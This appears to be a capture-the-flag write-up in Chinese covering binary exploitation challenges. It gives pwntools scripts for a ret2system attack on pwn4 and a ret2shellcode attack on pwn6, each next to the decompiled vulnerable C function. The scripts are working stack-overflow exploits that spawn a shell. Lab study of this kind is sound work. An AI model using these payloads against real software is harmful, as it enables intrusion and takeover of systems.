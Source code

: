 ```c
  printf("奥利给");
  return shell();
}
```

### pwn4 ret2system + bin/sh

Shift+F12 能搜到 system, 能搜到 bin/sh

```python
from pwn import *

file = './pwn4'
sh = process(file)
system_addr = 0x08048410
bin_addr = 0x08048750

junk = 'a' * (0x88 + 4)
payload = flat(junk, system_addr, 0xdeadbeef, bin_addr)

sh.sendline(payload)
sh.interactive()
```

```c
void vulnerable_function()
{
  char buf[128]; // [esp+0h] [ebp-88h]
  read(0, buf, 0x100u);
}
```

### pwn6 ret2shellcode

```python
from pwn import *

file = './pwn6'
sh = process(file)
shellcode = asm(shellcraft.sh())
buf2_addr = sh.recvline().decode().strip('\n')[-8:]
buf2_addr = int(buf2_addr, 16)
payload = flat(shellcode.ljust(0x48 + 4, b'A'), buf2_addr)
sh.sendline(payload)
sh.interactive()
```

```c
void vuln()
{
  char buffer[128]; // [esp+0h] [ebp-C8h]
  char shellcode[64]; // [esp+80h] [ebp-48h]

  printf("shellcode addr = %p\n", shellcode);
  read(0, buffer, 0x80u);
  strcpy(shellcode, buffer);
  // 看清题啊。是用buffer值去覆盖shellcode。所以只要填充shellcode数组就行了 0x48+4
  // 也可以用cyclic试
}
```
